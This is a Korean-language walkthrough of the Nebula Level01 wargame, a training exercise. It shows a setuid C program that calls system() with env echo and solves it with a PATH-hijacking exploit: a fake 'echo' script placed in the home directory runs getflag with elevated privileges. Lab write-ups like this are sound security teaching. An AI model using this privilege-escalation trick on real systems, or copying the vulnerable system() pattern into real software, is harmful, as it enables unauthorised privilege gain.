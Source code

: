 # Exploit-exercise Nebula Level01
```
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

취약점이 있는 프로그램에서 취약점을 찾을 수 있냐고 물어보면서 c 언어 소스코드를 준다.  
`/usr/bin/env` 를 통해 환경변수에서 echo 라는 프로그램 명을 찾아서 `and now what?` 이라는 인자를 주며 실행한다.

그렇다면 환경변수중 프로그램 실행 경로를 찾는 PATH 에 `~/` (홈 디렉토리)를 추가하고 `~/echo` 를 만든 다음, 내용에 `getflag` 를 넣으면 될 것이다.

```
export PATH=~:$PATH
echo "getflag" > ~/echo
chmod a+x ~/echo
/home/flag01/flag01
```

`export` 명령어를 통해 PATH 에 `~` (홈 디렉토리) 를 추가하고,  
`echo "getflag" > ~/echo` 를 통해 `echo` 파일에 `getflag` 를 입력한다.  
`chmod a+x ~/echo` 를 통해 `echo` 파일을 실행할 수 있도록 한 다음에  
`/home/flag01/flag01` 를 입력하면

```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.